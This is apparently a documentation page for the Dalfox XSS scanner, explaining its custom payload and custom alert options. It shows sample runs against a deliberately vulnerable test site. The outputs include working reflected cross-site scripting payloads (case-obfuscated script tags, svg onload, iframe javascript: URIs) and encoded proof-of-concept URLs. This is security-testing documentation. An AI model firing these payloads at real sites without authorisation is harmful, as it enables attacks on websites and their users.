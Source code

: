```yaml
---
title: Custom payload and Custom alert
redirect_from: /docs/custom-payload/
nav_order: 1
parent: Features
toc: true
layout: page
---
```


## Custom payload
```
dalfox url --custom-payload payload-list.txt
```

## Custom alert 
### Options
* `--custom-alert-value` = e.g (`XSS` / `1` / `document.location` )
* `--custom-alert-type`= e.g (`str` / `none`)

none or empty: write only alert-value (e.g --custom-alert-value=130 / --custom-alert-value=location.href)
str: `"PAYLOAD"` / `'PAYLOAD'`

### Case of study
default (no option)
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  yntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

used options - only value
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337
...snip...
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

used options - with type=str
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  yntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

used options - with type=none,str
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str,int
...snip...
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
